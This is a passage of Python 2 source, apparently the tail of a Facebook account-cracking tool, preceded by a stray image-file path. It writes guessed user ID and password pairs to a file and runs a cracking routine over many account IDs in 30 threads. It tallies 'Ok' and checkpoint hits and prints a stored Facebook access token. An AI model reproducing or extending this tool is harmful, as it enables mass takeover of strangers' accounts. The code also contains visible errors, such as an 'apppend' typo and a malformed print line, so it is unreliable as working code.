 											                cp.write(uid+" | "+pass5+"\n")

											                cp.close()

											                cps.apppend(uid+pass5)

													

																

		except:

			pass

	

	p = ThreadPool(30)

	p.map(main,id)

	print(50*"-")

	print("[!] The process has completed")

	print("[!] Total baloch-Ok/baloch-Cp :"+str(len(oks)))+"/"+str(len(cps))

	raw_input("[!] Press enter to back")

	choose()

		    

def view_token():

    os.system("clear")

    print banner

    print("")

    os.system("cat .fb_token.txt")

    print("")

    raw_input(" Press enter to main menu ")

    menu()

			

if __name__ == '__main__':

	user_info()
